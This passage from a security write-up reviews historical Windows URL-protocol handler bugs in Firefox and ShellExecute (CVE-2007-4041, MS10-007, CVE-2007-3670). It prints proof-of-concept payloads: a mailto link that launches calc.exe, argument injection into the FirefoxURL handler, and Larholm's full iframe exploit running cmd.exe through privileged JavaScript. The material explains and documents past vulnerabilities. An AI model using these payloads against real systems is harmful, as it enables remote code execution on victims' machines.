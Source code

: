 [389580 - (CVE-2007-4041) some schemes with %00 launch unexpected handlers on windows](https://bugzilla.mozilla.org/show_bug.cgi?id=389580#c17)

One of the test case:

```html
<a href="mailto:%../../../../../../windows/system32/cmd".exe ../../../../../../../../windows/system32/calc.exe " - " blah.bat>Mailto:%</a>
```

At first the report is for Firefox, but soon they realized that it was a shell32 bug. The precent symbol broke everything. It was supposed to invoke a mail client, but somehow a command got executed. Damn!

## MS10-007 (CVE-2010-0027)

Three years after, another vulnerability in ShellExecute's inner implementation was found: <https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2010/ms10-007>

> The vulnerability could allow remote code execution if an application, such as a Web browser, passes specially crafted data to the ShellExecute API function through the Windows Shell Handler.This time sharp symbol broke it again:

`xyz://www.example.com#://../../C:/windows/system32/calc.exe`

## CVE-2007-3670

This is a argument injection affects both Firefox and ThunderBird.

* <https://www.mozilla.org/en-US/security/advisories/mfsa2007-23/>
* <https://bugzilla.mozilla.org/show_bug.cgi?id=384384>

Firefox registered `FirefoxURL` protocol:

```
[HKEY_CLASSES_ROOT\FirefoxURL\shell\open\command\@]
C:\\PROGRA~1\\MOZILL~2\\FIREFOX.EXE -url "%1″ -requestPending
```

Thor Larholm found a quote in url can inject extra command switch:

```
FirefoxURL://foo" --argument "my value
```

So he used a special switch -chrome which allows executing arbitrary javascript in a privileged domain.

<http://larholm.com/2007/07/10/internet-explorer-0day-exploit/>

His final exploit:

```html
<html><body>
<iframe src='firefoxurl://larholm.com" -chrome "javascript:C=Components.classes;I=Components.interfaces;
file=C['@mozilla.org/file/local;1'].createInstance(I.nsILocalFile);
file.initWithPath('C:'+String.fromCharCode(92)+String.fromCharCode(92)+'Windows'+
String.fromCharCode(92)+String.fromCharCode(92)+'System32'+String.fromCharCode(92)+
String.fromCharCode(92)+'cmd.exe');
process=C['@mozilla.org/process/util;1'].createInstance(I.nsIProcess);
process.init(file);
process.run(true,['/k%20echo%20hello%20from%20larholm.com'],1);
'><
</body></html>
```
